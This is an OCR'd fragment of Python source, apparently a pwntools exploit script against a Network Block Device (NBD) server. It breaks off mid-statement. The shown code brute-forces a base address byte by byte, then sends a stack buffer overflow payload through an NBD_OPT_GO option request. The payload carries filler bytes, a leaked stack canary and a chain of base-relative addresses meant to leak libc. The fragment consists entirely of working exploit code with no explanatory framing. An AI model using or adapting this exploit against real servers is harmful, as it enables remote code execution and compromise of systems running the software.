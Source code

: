 ```python
        io.send(header)
        io.send(p32(0, endian="big"))
        io.send(p32(0, endian="big"))

        parse_response(io)

        io.close()

        print(f"Ok! found base[{j:d}] = {i:02x}")
        base[j] = i
        break

      except EOFError:
        continue
  return base

base = get_base()

def get_libc():
  io = remote(HOST, PORT)

  buf = io.recv(8)
  assert(buf == INIT_PASSWD)

  log.info("received INIT_PASSWD")

  magic = u64(io.recv(8), endian="big")
  assert(magic == opts_magic)

  log.success(f"received opts magic {magic:#x}")

  gflags = u16(io.recv(2), endian="big")
  log.info(f"global flags are {gflags:#x}")

  cflags = NBD_FLAG_FIXED_NEWSTYLE
  if (gflags & NBD_FLAG_NO_ZEROES):
    cflags |= NBD_FLAG_NO_ZEROES

  io.send(p32(cflags, endian="big"))

  length = 1032+4+64+8
  payload  = b"A"*1028

  # canary
  for p in range(8):
    payload += p8(canary[p])

  payload += p64(0xdeadbeef00)
  payload += p64(0xdeadbeef01)
  payload += p64(512)
  payload += p64(base + 0x12DA8)
  payload += p64(4)
  payload += p64(0xdeadbeef05)
  payload += p64(0xdeadbeef06)
  payload += p64(base + 0xC202)

  payload += b"D" * (length-4-len(payload))

  namelen  = length

  send_request(NBD_OPT_GO, length, namelen, payload, io)

  header = p64(opts_magic, endian="big") + \
```